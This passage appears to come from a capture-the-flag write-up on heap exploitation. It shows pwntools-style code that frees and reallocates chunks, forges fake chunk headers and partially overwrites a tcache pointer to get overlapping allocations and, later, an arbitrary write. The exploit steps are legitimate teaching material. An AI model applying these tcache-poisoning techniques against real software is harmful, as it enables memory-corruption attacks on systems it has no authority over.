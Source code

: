 

I'll free both B2 and fake1, both going into tcache where I can use them
at the end once I need a way to write to arbitrary addresses.



    rm('fake1')
    rm('B2')



The tcache now looks like:



    (0x20)   tcache_entry[0](1): 0x55555555c2e0
    (0x30)   tcache_entry[1](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x50)   tcache_entry[3](1): 0x55555555c2b0 (overlap chunk with 0x55555555c2d0(freed) )
    (0x60)   tcache_entry[4](1): 0x55555555c290 (overlap chunk with 0x55555555c2d0(freed) )



#### Second Fake Chunk

I'll now (after a bit of spacing) create another fake chunk roughly the
same way:



    add('x', 0x30)                                  # add for spacing, but used later
    rm('x')

    add('C', 0x60)   # create block to be freed and steal pointer in tcache - C = 340
    add('D', 0x70, p64(0)*5 + p64(0xa1) + p64(0)) # create block and fake block to put fake block meta in place - D = 3b0
    rm('D') # D in tcache 0x80
    add('E', 0x60, p64(0x21)*11)   # create second 0x60, E, and spray with 0x21 for next block meta fake later, E = 430
    rm('C')               # f1 empty, C in 0x70 tcache
    edit('E', 0)      # slot 2 -> E, E->C in 0x70 tcache
    add('E2', 0x60)  # slots 1 and 2 -> E, C in 0x70 tcache
    rm('E')               # slot 1 -> E, E -> C in 0x70 tache
    edit('E2', 0x60, b'\xe0') # edit tcache pointer, C -> fake2 in 0x70 tcache

    # next three fetch C from tcache, and get rid of it without putting it back in 0x70 tcache
    add('E3', 0x60)   # fetch E, fake in 0x70 tcache
    edit('E3', 0x20)  # E-end in 0x30 tcache
    rm('E3')          # E in 0x50 tcache

    add('fake2', 0x60, p64(0)*9 + p64(0x31) + p64(0))   # get fake block, change key for E
    rm('E2') # C
    add('B', 0x70) # B



I do the same thing here, though this time I have another block between
the one I steal the pointer from and the one with that pointer. At the
end, I'm left with handles to two overlapping blocks. The fake block
reports to have size 0xa1 (despite the fact that I can't make blocks
that big in this program), and the other one is before it able to write
into this block.
